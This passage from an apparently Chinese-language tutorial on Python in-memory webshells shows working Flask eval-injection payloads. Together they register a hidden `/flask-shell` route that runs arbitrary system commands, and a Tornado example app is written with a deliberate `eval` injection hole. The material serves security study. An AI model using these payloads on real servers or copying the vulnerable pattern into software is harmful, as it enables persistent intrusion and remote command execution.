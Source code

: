 在 `eval` 场景下，没有办法执行多条代码，所以这里需要发送两条请求来完成操作，当前上下文中可以直接使用 `app` 对象，构造第一条请求向 `url_map` 中新增一条 `UrlRule`

```python
app.url_map.add(app.url_rule_class('/flask-shell', methods=['GET'],endpoint='shell'))
```

这个时候已经可以访问 `/flask-shell` 路由，但是由于其指定的 `endpoint` 并没有对应的 `func` 所以会报错

![](/img/python-web-memory-shell/20240709094732.png)

之后再构造第二条请求，向 `view_functions` 中增加对应 `endpoint` 的实现

```python
app.view_functions.update({'shell': lambda:__import__('os').popen(request_context.top.request.args.get('cmd', 'whoami')).read()})
```

为了灵活性这里需要http传参来控制执行的命令，但是这里会发现上下文中并不存在 `request_context`，当前 `app` 对象中的 `request_context` 是一个函数

![](/img/python-web-memory-shell/Pasted%20image%2020240608161522.png)

那么可以通过函数的 `__globals__` 属性来获取当前的全局变量字典，在这其中就有需要的 `RequestContext` 对象

![](/img/python-web-memory-shell/Pasted%20image%2020240608162003.png)

所以修改一下第二条payload如下

```python
app.view_functions.update({'shell': lambda:__import__('os').popen(app.request_context.__globals__['request_ctx'].request.args.get('cmd', 'whoami')).read()})
```

两条payload发送完成后，即可新增一条任意命令执行的路由 `/flask-shell`

![](/img/python-web-memory-shell/20240709094957.png)

## Tornado

### 场景代码

```python
import tornado

class MainHandler(tornado.web.RequestHandler):
    def get(self):
        result = eval(self.get_argument('expression'))
        self.write('<h2>result: %s!</h2>' % result)

def make_app():
    return tornado.web.Application([
        (r"/", MainHandler),
    ], debug=True, autoreload=True)

if __name__ == '__main__':
    app = make_app()
    app.listen(5000)
    print("listen: 5000")
    tornado.ioloop.IOLoop.instance().start()
```
